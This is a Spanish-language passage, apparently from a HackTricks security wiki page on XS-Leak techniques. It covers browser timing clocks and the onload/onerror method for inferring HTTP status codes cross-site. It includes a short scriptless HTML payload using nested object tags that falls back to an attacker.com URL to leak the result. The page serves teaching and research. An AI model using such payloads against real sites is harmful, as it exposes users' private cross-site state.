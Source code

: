 <figure><img src="../../images/image (48).png" alt=""><figcaption></figcaption></figure>

\
Usa [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_content=xs-search) para construir y **automatizar flujos de trabajo** fácilmente impulsados por las **herramientas comunitarias más avanzadas** del mundo.\
Obtén acceso hoy:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=xs-search" %}

## **Técnicas Basadas en Tiempo**

Algunas de las siguientes técnicas van a utilizar el tiempo como parte del proceso para detectar diferencias en los posibles estados de las páginas web. Hay diferentes formas de medir el tiempo en un navegador web.

**Relojes**: La API [performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now) permite a los desarrolladores obtener mediciones de tiempo de alta resolución.\
Hay un número considerable de APIs que los atacantes pueden abusar para crear relojes implícitos: [Broadcast Channel API](https://developer.mozilla.org/en-US/docs/Web/API/Broadcast_Channel_API), [Message Channel API](https://developer.mozilla.org/en-US/docs/Web/API/MessageChannel), [requestAnimationFrame](https://developer.mozilla.org/en-US/docs/Web/API/window/requestAnimationFrame), [setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout), animaciones CSS, y otros.\
Para más información: [https://xsleaks.dev/docs/attacks/timing-attacks/clocks](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/).

## Técnicas de Manejador de Eventos

### Onload/Onerror

- **Métodos de Inclusión**: Marcos, Elementos HTML
- **Diferencia Detectable**: Código de Estado
- **Más información**: [https://www.usenix.org/conference/usenixsecurity19/presentation/staicu](https://www.usenix.org/conference/usenixsecurity19/presentation/staicu), [https://xsleaks.dev/docs/attacks/error-events/](https://xsleaks.dev/docs/attacks/error-events/)
- **Resumen**: si se intenta cargar un recurso, se activan eventos onerror/onload cuando el recurso se carga con éxito/sin éxito, es posible averiguar el código de estado.
- **Ejemplo de código**: [https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)](<https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)>)

{{#ref}}
cookie-bomb-+-onerror-xs-leak.md
{{#endref}}

El ejemplo de código intenta **cargar objetos de scripts desde JS**, pero **otros tags** como objetos, hojas de estilo, imágenes, audios también podrían ser utilizados. Además, también es posible inyectar el **tag directamente** y declarar los eventos `onload` y `onerror` dentro del tag (en lugar de inyectarlo desde JS).

También hay una versión sin script de este ataque:
```html
<object data="//example.com/404">
<object data="//attacker.com/?error"></object>
</object>
```
En este caso, si `example.com/404` no se encuentra, se cargará `attacker.com/?error`.

